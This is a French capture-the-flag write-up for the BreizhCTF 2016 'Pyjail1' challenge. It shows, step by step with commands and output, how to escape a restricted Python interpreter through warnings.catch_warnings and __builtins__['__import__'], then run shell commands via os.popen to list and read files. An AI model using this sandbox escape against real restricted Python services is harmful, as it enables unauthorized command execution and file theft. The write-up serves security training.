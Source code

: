 # BREIZHCTF 2K16
**Chall:** Pyjail1 |
**Points:** 300 |
**Taux de réussite:** 36% |



Le titre de ce challenge nous donne un bonne piste pour le résoudre.
Pour commnecer on cherche les fonctions autorisées.

En essayant quelques une on découvre que y a seulement la fonction dir qui est autorisée.

L'idée pour résoudre ce chall est de trouver une méthode accessible qui pourrait nous permettre d'exécuter une commande sur le système ou de trouver un chemin vers la fonction "\__import\__" de python afin de charger le module "os".


En exécutant la commande suivante sur le serveur on obtient une liste de types et de classes accessbiles depuis notre "jail" :
```
>print ().__class__.__base__.__subclasses__()

[..., <class 'warnings.catch_warnings'>, ...]
```
On obtient une importante liste de classes et de types exploitables.
Nous allons exploiter la classe "warnings.catch_warnings" car elle a un attribut qui nous intéresse "\_module". (cf: https://hg.python.org/cpython/file/2.7/Lib/warnings.py)

On commence par la création d'une instance de cette classe dans une variable :
```
>wclass = ().__class__.__base__.__subclasses__()[59]()

```

Ensuite on regarde ce le contenu de l'attribut "_module"
```
>print wclass._module
<module 'warnings' from '/usr/lib/python2.7/warnings.pyc'>
>print dir(wclass._module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']

```

Un attribut très intéressant apparait, c'est "\__builtins\__".
```
>print wclass._module.__builtins__
 {..., '__import__': <built-in function __import__>, ...}
```
Et bingo, on a accès à la fonction "\__import\__".

Maintenant qu'on a accès à cette fonction il ne reste plus qu'à importer le module os et exécuter des commandes sur le système afin de récupérer le flag.

```
>print wclass._module.__builtins__['__import__']('os').popen("pwd && ls -alR ").read()
>print wclass._module.__builtins__['__import__']('os').popen("cat flag").read()
BZH{flag flag \o/}
```
PS:  j'ai oublié de copier le flag ^^

De même on exécute une commande pour récupérer le code du chall "cat python_vm1.py".



